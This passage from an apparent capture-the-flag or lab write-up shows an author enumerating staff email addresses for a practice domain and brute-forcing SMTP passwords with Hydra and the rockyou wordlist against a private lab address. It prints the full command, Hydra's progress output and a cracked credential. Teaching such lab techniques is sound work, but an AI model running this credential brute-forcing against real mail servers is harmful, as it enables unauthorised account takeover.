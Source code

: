 <a href="/images/gds1-3.png"><img src="/images/gds1-3.png"></a>

Well what do we have here? Emails! This is great! We now know how the usernames are structured for Global Data Security. So Alfred Modlin should be __a.modlin__!

Let's add those usernames to a list for safe keeping.

```console
root@kali:~# nano names
root@kali:~# cat names 
a.modlin@gds.lab
s.locklear@gds.lab
j.wise@gds.lab
```

## Brute Forcing SMTP:

Since we got those three usernames, and there's an active E-Mail server on the site - let's try and Brute Force some passwords through SMTP!

I decided to use [THC Hydra](http://tools.kali.org/password-attacks/hydra) for this as well as the Rockyou Password List.

```console
root@kali:~# hydra -L names -P /usr/share/wordlists/rockyou.txt 192.168.101.9 smtp
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-01-24 17:47:43
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 64 tasks, 43033197 login tries (l:3/p:14344399), ~42024 tries per task
[DATA] attacking service smtp on port 25
[STATUS] 221.00 tries/min, 221 tries in 00:01h, 43032976 to do in 3245:20h, 16 active
[STATUS] 215.67 tries/min, 647 tries in 00:03h, 43032550 to do in 3325:33h, 16 active
[STATUS] 215.57 tries/min, 1509 tries in 00:07h, 43031688 to do in 3326:57h, 16 active
[STATUS] 191.07 tries/min, 2866 tries in 00:15h, 43030460 to do in 3753:32h, 16 active
[25][smtp] host: 192.168.101.9   login: a.modlin@gds.lab   password: justdoit
```

